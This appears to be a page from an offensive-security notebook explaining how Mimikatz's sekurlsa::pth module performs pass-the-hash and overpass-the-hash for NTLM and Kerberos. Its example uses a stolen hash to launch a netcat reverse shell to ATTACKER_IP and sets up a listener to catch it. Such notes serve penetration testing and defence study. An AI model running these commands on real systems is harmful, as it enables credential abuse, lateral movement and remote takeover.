 # sekurlsa::pth

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Technical details

The `sekurlsa::pth` method performs a **Pass-the-Hash** or **Pass-the-Key** attack for NTLM and Kerberos authentication respectively, that depends on the provided options (eg. `/ntlm` , `/rc4` , etc.).

Any external network connections (eg. `schtasks` , `sc.exe` , etc.) executed from that forged logon session will automatically use the injected credentials, giving us access as that particular user on the remote machine.

**a. Using stolen NTLM hash with NetNTLM authentication (**`Pass-the-Hash`**)**

1. When we receive a challenge from the remote server, the injected NTLM hash will be used to create the challenge response&#x20;
2. Since we are using the NTLM hash of the target user, we can authenticate as that particular user

**b. Using stolen encryption key with Kerberos authentication (**`Pass-the-Key`/`Overpass-the-Hash`**)**

1. Given that we have extracted the Kerberos encryption key, it can be used to encrypt the timestamp that is required for the **TGT** request
2. The **KDC** will then respond with the **TGT** and a **Session Key**
3. Subsequently, we can use the retrieved values to request for a **TGS** as the user stored in the Kerberos encryption key in the first step

#### Basic command

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"<payload>"
```
{% endcode %}

* `<xxxx>:hash` can be `/ntlm:<hash>` , `/aes128:<hash>` , etc.
* `/run` allows us to provide a payload to be executed locally with the injected credentials
  * this will usually be a reverse shell connection

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a logon session as the user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform PtH:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

From the shell session established:

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

